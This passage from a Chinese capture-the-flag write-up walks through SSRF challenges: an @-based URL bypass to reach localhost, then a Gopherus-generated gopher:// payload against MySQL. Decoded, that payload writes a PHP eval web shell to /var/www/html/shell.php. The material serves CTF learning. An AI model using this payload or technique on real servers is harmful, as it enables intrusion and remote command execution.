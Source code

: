 这里需要出现 这内容 才会输出

我们来看看

我们通过 @ 来绕过

```cobol
http://ctf.@127.0.0.1/flag.php?show
```

这里 @ 后 还是解析为 127.0.0.1 并且结尾是 show

## web359  mysql ssrf

首先开局一个登录

我们看看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/5508bb6cd76825ac1c4ce101a0cc4744.png" alt="" style="max-height:523px; box-sizing:content-box;" />


发现有一个hidden元素 这里是被隐藏了 并且值已经设定为 url 了 这里要敏感了 因为 SSRF 就是引用其他url

我们随便写一个抓包看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/6cbb748c20713834ad5003112b254b36.png" alt="" style="max-height:307px; box-sizing:content-box;" />


发现 POST内容中 传递了 returl值

我们修改为百度看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/e9c1df0b683d40e76fed085fb7a98342.png" alt="" style="max-height:582px; box-sizing:content-box;" />


确实存在 ssrf

没有找到 flag.php

我们因为通过登入 我们可以想到数据库 那我们直接通过 gopher 攻击mysql即可

我们使用工具

```sql
py2 .\gopherus.py --exploit mysql
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ccdfec5cc7a48d59997158e1fc2d5d6f.png" alt="" style="max-height:271px; box-sizing:content-box;" />


将 payload 再进行一次 url编码

```cobol
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254f%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2527%2563%256d%2564%2527%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2573%2568%2565%256c%256c%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```
